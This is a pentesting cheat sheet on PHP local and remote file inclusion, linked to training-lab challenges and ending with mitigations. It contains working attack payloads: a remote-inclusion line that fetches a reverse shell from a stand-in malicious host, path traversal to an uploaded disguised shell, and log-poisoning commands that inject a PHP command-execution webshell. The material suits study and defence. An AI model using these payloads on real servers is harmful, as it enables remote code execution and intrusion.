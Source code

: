 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)

<div class="row row-cols-lg-2"><div>

Files inclusion refers to websites that are importing a file based or using the user input. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the input is not filtered/validated, a hacker may include arbitrary content using [Path traversal](traversal.md) such as an uploaded script.
</div><div>

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

Template engines are more likely to contain LFI/RFI. They can lead to code/data exposure, which may further compromise the company.

⚠️ For RFI, always try a local URL that is likely not blocked by a firewall first <small>(ex: `http://127.0.0.1:80/index.php`)</small>. Alternatively, you may try `ftp://` or `\\IP\share\` on Windows.
</div></div>

<hr class="sep-both">

## Basic Methodology

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI, such as:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.
</div><div>

Assuming we have `page=about`.

* Test Path `./about`
* Test Null-Byte `./about.php%00`
* Test a Path `../<folder name>/about`
* Test Architecture-specific payloads, such as `php://filter`
* Test Remote Inclusion
* ...
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)]()

<div class="row row-cols-lg-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div><div>

**Additional notes**

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.png` below:

```php!
include "xxx.png%00.php" // include xxx.png
```

* The PHP string truncation could be used in **PHP < 5.3.0** as strings longer than 4096 were truncated.

* If they are using `assert()` to filter characters such as `..`, we may be able to [inject code in it](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert).

* Double URL encoding may allow us to by-pass some filters <small>(most likely not PHP filters)</small> that are not fully decoding the URL. By default, PHP is decoding URLs once.
</div></div>

<hr class="sep-both">

## Log Poisoning

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use *user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If allowing paths, refer to path traversal mitigations
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/var/log/sshd.log`
* `/var/log/vsftpd.log`
</div><div>

* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div></div>